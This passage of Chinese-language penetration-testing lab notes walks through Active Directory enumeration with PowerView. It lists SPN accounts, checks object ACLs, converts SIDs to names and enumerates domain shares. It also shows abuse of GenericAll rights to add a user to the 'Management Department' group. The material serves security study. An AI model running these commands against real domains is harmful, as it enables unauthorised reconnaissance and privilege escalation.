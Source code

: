 也可以用PowerView枚举

```armasm
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

针对结果中web服务查，看域名对用的ip

```armasm
nslookup.exe web04.corp.com
```

### 21.3.4 枚举对象权限

枚举当前用户权限，使用PowerView

```armasm
Get-ObjectAcl -Identity stephanie
```

在结果中针对SID标识转换成对象进行查看

```armasm
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
```

可以获得SecurityIdentifier对ObjectSID的权限ActiveDirectoryRights是ReadProperty

查看所有对“Management Department”组有GenericAll的权限

```armasm
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

查看结果中所有sid信息

```armasm
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

发现当前用户有权限，然后将自己加入到Management Department组

```armasm
net group "Management Department" stephanie /add /domain
Get-NetGroup "Management Department" | select member
```

可以成功，再删除

```armasm
net group "Management Department" stephanie /del /domain
Get-NetGroup "Management Department" | select member
```

### 21.3.5 枚举域共享

PowerView

```armasm
Find-DomainShare
```
